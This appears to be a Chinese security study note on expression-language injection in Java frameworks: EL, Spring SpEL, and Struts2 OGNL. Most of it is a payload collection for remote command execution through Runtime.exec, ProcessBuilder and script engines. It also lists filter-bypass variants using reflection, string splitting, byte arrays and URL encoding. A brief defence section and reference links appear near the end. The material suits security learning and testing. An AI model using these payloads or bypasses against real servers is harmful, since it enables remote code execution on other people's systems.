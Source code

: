 OGNL(struts2)、SpEL(spring)、MVEL、EL、Fel、JSTL+EL等
# **EL表达式**
原生EL（Expression Language）表达式 是为了使JSP写起来更加简单。
```
//执行命令
${"".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd','/c','calc']).start()")}
```


^
# **Spring的SpEL表达式**
功能：
```
把字符串当做代码执行。
数学表达式执行。
配置文件解析：SpEL可以解析配置文件中的动态值，引用其他属性或方法的值，实现配置的动态性。
SpEL通常用在Spring框架的某些特定场景中，比如
在配置文件中通过`${...}`使用属性占位符，或者在注解中实现复杂的逻辑，例如`@Conditional`注解。
```

集成：
存在Spel注入的前提是存在SpEl相关的库，如下是相关的库
```
当集成的spring-boot-starter-web依赖后，就可以自动使用。
org.springframework.expression.spel.standard
SpelExpressionParser
parseExpression
expression.getValue();
expression.setValue();
```
SpEl解析SpEL提供了两套不同的接口，分别是"SimpleEvaluationContext"和"StandardEvaluationContext"。
"SimpleEvaluationContext" 仅支持简单的表达式，抛弃了Java类型引用，构造函数，相较比较安全。
而"StandardEvaluationContext" 支持复杂的表达式，如方法调用、属性访问等。 
如果在不指定EvaluationContext的情况下，SpEl默认使用"StandardEvaluationContext"。

关键词：StandardEvaluationContext()；

^
## **使用**
SpEL的用法有三种形式
1、是在注解@Value中；
2、是XML配置；
3、在代码中使用Expression。
```
SpEL使用#{}作为定界符，所有在大括号中的字符都将被认为是SpEL表达式，在其中可以使用SpEL运算符、变量、引用bean及其属性和方法等。
#{}就是SpEL的定界符，用于指明内容未SpEL表达式并执行；
${}主要用于加载外部属性文件中的值；
两者可以混合使用，但是必须#{}在外面，${}在里面，如#{'${}'}，注意单引号是字符串类型才添加的；
```
```
在SpEL表达式中，使用T(Type)运算符会调用类的作用域和方法。
使用T(Type)来表示java.lang.Class实例，Type必须是类全限定名，但”java.lang”包除外，因为SpEL已经内置了该包，即该包下的类可以不指定具体的包名；使用类类型表达式还可以进行访问类静态方法和类静态字段。
T(Runtime).getRuntime().exec('calc')
```

案例：
```
String spel ="T(java.lang.Runtime).getRuntime().exec(\"calc\")"; 
//T()包裹后可以直接调用静态方法和静态属性。
ExpressionParser parser=new SpelExpressionParser();
Expression expression=parser.parseExpression(spel);
EvaluationContext context=new StandardEvaluationContext();
expression.getValue(context);

```

CVE复现：<https://cloud.tencent.com/developer/article/2144995>




^
### **SpEL表达式 #{} 和 {} 和 # 的使用用法**
1. #{} 表达式
   #{} 用于在 Spring 配置文件中表示需要解析的 SpEL 表达式。主要用于注解、XML 配置和属性文件中，通常在需要动态计算的场景下使用。
```java 
@Value("#{systemProperties['user.home']}")
private String userHome;
```
2. `#` 符号   
`#` 符号在 SpEL 表达式中用于引用变量或方法。通常在解析上下文中使用，以引用方法、属性或在表达式中定义的变量。
```java 
SpelExpressionParser parser = new SpelExpressionParser();
StandardEvaluationContext context = new StandardEvaluationContext();
context.setVariable("number", 42);

Integer number = parser.parseExpression("#number").getValue(context, Integer.class);
```
3. ` '' `字符串  
   用于在 SpEL 表达式中表示字符串文字。字符串文字在 SpEL 表达式中必须用单引号括起来，以区分其他类型的值（如数字、变量等）。
```java 
SpelExpressionParser parser = new SpelExpressionParser();
String result = parser.parseExpression("'Hello ' + 'World'").getValue(String.class);
```



 
^
## **SpEL表达式注入payload**
```
// 执行exec
T(java.lang.Runtime).getRuntime().exec("calc.exe");
#this.getClass().forName("java.lang.Runtime").getRuntime().exec("calc.exe");

 ```
```
T(java.lang.Ru" + "ntime).getRuntime().exec('calc');

String spel = "T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"ex\"+\"ec\",T(String[]))" +".invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\")" +".getMethod(\"getRu\"+\"ntime\").invoke(T(String).getClass()" +".forName(\"java.l\"+\"ang.Ru\"+\"ntime\")),new String[]{\"cmd\",\"/C\",\"calc\"})\n";

new javax.script.ScriptEngineManager().getEngineByName("javascript").eval("java.lang.Runtime.getRuntime().exec('calc')")";

T(java.lang.Runtime).getRuntime().exec("calc")
T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x63,0x61,0x6c,0x63}))
```
更多
```
// PoC原型

// Runtime
T(java.lang.Runtime).getRuntime().exec("calc")
T(Runtime).getRuntime().exec("calc")

// ProcessBuilder
new java.lang.ProcessBuilder({'calc'}).start()
new ProcessBuilder({'calc'}).start()

******************************************************************************
// Bypass技巧

// 反射调用
T(String).getClass().forName("java.lang.Runtime").getRuntime().exec("calc")

// 同上，需要有上下文环境
#this.getClass().forName("java.lang.Runtime").getRuntime().exec("calc")

// 反射调用+字符串拼接，绕过如javacon题目中的正则过滤
T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})

// 同上，需要有上下文环境
#this.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})

// 当执行的系统命令被过滤或者被URL编码掉时，可以通过String类动态生成字符，Part1
// byte数组内容的生成后面有脚本
new java.lang.ProcessBuilder(new java.lang.String(new byte[]{99,97,108,99})).start()

// 当执行的系统命令被过滤或者被URL编码掉时，可以通过String类动态生成字符，Part2
// byte数组内容的生成后面有脚本
T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(99)))

// JavaScript引擎通用PoC
T(javax.script.ScriptEngineManager).newInstance().getEngineByName("nashorn").eval("s=[3];s[0]='cmd';s[1]='/C';s[2]='calc';java.la"+"ng.Run"+"time.getRu"+"ntime().ex"+"ec(s);")

T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval("xxx"),)

// JavaScript引擎+反射调用
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})),)

// JavaScript引擎+URL编码
// 其中URL编码内容为：
// 不加最后的getInputStream()也行，因为弹计算器不需要回显
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(java.net.URLDecoder).decode("%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%63%61%6c%63%22%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29")),)

// 黑名单过滤".getClass("，可利用数组的方式绕过，还未测试成功
''['class'].forName('java.lang.Runtime').getDeclaredMethods()[15].invoke(''['class'].forName('java.lang.Runtime').getDeclaredMethods()[7].invoke(null),'calc')

// JDK9新增的shell，还未测试
T(SomeWhitelistedClassNotPartOfJDK).ClassLoader.loadClass("jdk.jshell.JShell",true).Methods[6].invoke(null,{}).eval('whatever java code in one statement').toString()
```

## **SpEL表达式注入防御**
使用 SimpleEvaluationContext
防御：使用时做白名单，只有需要的字符串才能当作代码执行。
```java
SpelExpressionParser parser = new SpelExpressionParser();
SimpleEvaluationContext context = SimpleEvaluationContext.forReadOnlyDataBinding().build();
expression.setValue(context, "payload");
```



^
# **OGNL(struts2)表达式注入**
记录POC，具体的内容学structs。

具体参考
<https://www.mi1k7ea.com/2020/03/16/OGNL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#0x01-OGNL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E5%9F%BA%E7%A1%80>
```
//获取context里面的变量
 #user
 #user.name

//使用runtime执行系统命令
@java.lang.Runtime@getRuntime().exec("calc")


//使用processbuilder执行系统命令
(new java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).start()

//获取当前路径
@java.lang.System@getProperty("user.dir")
```

